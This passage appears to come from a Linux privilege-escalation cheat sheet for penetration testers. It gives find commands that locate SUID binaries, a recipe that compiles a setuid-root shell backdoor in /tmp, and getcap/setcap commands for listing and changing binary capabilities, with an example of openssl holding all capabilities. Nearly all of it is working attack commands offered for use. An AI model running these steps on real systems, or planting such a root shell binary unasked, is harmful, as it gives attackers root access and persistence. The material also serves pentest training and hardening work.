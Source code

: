 ```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Create a SUID binary

| Function   | Description  |
|------------|---|
| setreuid() | sets real and effective user IDs of the calling process  |
| setuid()   | sets the effective user ID of the calling process        |
| setgid()   | sets the effective group ID of the calling process       |


```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```


## Capabilities

### List capabilities of binaries 

```powershell
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### Edit capabilities

```powershell
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.
```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```
